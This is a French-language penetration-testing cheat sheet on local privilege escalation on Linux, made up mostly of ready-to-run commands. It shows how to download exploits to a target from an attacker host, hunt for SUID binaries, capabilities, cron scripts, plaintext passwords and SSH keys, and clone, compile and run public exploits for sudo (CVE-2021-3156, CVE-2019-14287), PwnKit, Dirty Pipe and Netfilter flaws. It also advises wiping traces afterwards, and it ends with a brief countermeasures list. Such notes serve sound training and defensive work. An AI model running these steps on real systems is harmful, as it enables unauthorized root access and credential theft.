

## Escalade de privilèges locale sur systèmes Linux



> [!warning] Risque de crash système
> L'exploitation de vulnérabilités noyau peut entraîner un **Kernel Panic** et rendre le système instable ou indisponible.

> [!tip] Préparation
> La compilation des exploits nécessite **gcc** et **make**. En cas d'absence, privilégier l'utilisation de binaires statiques ou la compilation sur une machine d'attaque identique (même architecture/version libc).

> [!note] Nettoyage
> Après exploitation, supprimer systématiquement les fichiers temporaires créés dans `/tmp` ou les répertoires de travail pour limiter les traces.

> [!info] Vérification préalable
> Toujours valider la version du noyau avec `uname -r` avant de tenter une exploitation de type **Kernel** ou **Netfilter**.

## Méthodologie de transfert de fichiers
Pour transférer des exploits ou des outils d'énumération vers la cible, utiliser les méthodes suivantes :

**Machine d'attaque :**
```bash
# Via SMB (Impacket)
impacket-smbserver share $(pwd) -smb2support

# Via HTTP
python3 -m http.server 8000
```

**Machine cible :**
```bash
# Récupération
wget http://<IP_ATTAQUANT>:8000/exploit.c
curl -O http://<IP_ATTAQUANT>:8000/exploit.c
```

## Analyse des capacités (Capabilities)
Les capacités permettent de diviser les privilèges root en unités plus petites. Une mauvaise configuration peut mener à une escalade.

```bash
# Lister les binaires avec des capacités actives
getcap -r / 2>/dev/null
```
*Note : Si `cap_setuid` ou `cap_dac_override` sont présents sur des binaires comme `python`, `perl` ou `tar`, une escalade est triviale.*

## Analyse des tâches planifiées (Cron jobs)
Vérifier les scripts exécutés par root ou d'autres utilisateurs.

```bash
# Vérification des fichiers de configuration
cat /etc/crontab
ls -la /etc/cron.*
cat /var/spool/cron/crontabs/* 2>/dev/null
```
*Rechercher des scripts inscriptibles par l'utilisateur courant ou des chemins relatifs dans les variables d'environnement.*

## Analyse des fichiers SUID/SGID manuels
Recherche de binaires avec le bit SUID positionné, souvent vecteurs d'escalade via **GTFOBins**.

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```

## Analyse des scripts de sauvegarde ou fichiers de configuration sensibles
Recherche de mots de passe en clair ou de clés privées dans des fichiers de configuration ou scripts de backup.

```bash
# Recherche de mots de passe
grep -iE "password|passwd|pwd|db_pass" /var/www/html/config.php 2>/dev/null
grep -r "password" /etc/ 2>/dev/null

# Recherche de clés SSH
find / -name id_rsa 2>/dev/null
```
*Voir les notes liées : **Privilege Escalation**, **Linux**, **Webshells**.*

## Sudo

### Vérification des droits
```bash
sudo -l
```

### Vérification de version
```bash
sudo -V | head -n1
```

### CVE-2021-3156 (Heap Overflow)
Vulnérabilité affectant **sudo** < 1.9.5p2.
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich 1
```

### CVE-2019-14287 (Policy Bypass)
Vulnérabilité affectant **sudo** < 1.8.28.
```bash
sudo -u#-1 /usr/bin/id
```

## Polkit (CVE-2021-4034 - PwnKit)

### Vérification de présence
```bash
which pkexec
```

### Exploitation
```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
```

## Dirty Pipe (CVE-2022-0847)

### Vérification noyau
Vulnérable si version comprise entre 5.8 et 5.17.x.
```bash
uname -r
```

### Exploitation
```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

| Méthode | Commande |
| :--- | :--- |
| Modification `/etc/passwd` | `./exploit-1` |
| Binaire SUID | `./exploit-2 /usr/bin/sudo` |

## Netfilter

### Analyse des vulnérabilités
| CVE | Type | Versions concernées |
| :--- | :--- | :--- |
| CVE-2021-22555 | Heap overflow | 2.6 – 5.11 |
| CVE-2022-25636 | Heap corruption | 5.4 – 5.6.10 |
| CVE-2023-32233 | Use-After-Free | ≤ 6.3.1 |

### Exemple d'exploitation (CVE-2023-32233)
```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```

## Contremesures

- Mettre à jour **sudo** (> 1.9.5p2) et **Polkit** (≥ 0.120).
- Mettre à jour le noyau Linux > 5.17.1.
- Utiliser `visudo` pour restreindre strictement les entrées **sudoers**.
- Monitorer l'usage des binaires sensibles avec **auditd**.
- Restreindre l'accès aux fichiers critiques comme `/etc/passwd` et `/etc/shadow`.
- Supprimer ou restreindre les permissions sur les binaires SUID inutiles.